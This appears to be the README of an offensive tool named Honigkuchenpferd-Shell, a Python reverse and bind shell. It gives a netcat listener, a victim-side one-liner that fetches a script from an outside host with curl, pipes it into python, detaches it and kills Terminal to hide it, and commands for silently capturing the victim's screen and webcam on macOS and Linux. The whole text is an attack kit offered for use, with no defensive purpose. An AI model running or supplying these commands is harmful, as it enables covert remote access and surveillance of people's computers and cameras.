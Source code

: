 # Honigkuchenpferd-Shell

free to use but doesn't mess up mmmkay !

Simple Reverse and Bind Shell

python2.7 and python3

## Server
```
#reverse shell
nc -lvp 6666

#bind shell
nc <IP> 6666
```

## Victim
```
curl -s http://$IP:$PORT/Honigkuchenpferd.py | /usr/bin/python  & disown; killall Terminal
```

## macOS:
### Screenshot
```
screencapture -x /tmp/screenshot.jpg
```
## gnu/linux:
### Screenshot
```
ffmpeg -f x11grab -framerate 1 -i :0.0 -vframes 1 screenshot.jpg
```
### Selfie
```
#Selfie
ffmpeg -f video4linux2 -s 640x480 -i /dev/video0 -ss 0:0:1 -frames 1 /tmp/selfie.jpg
```


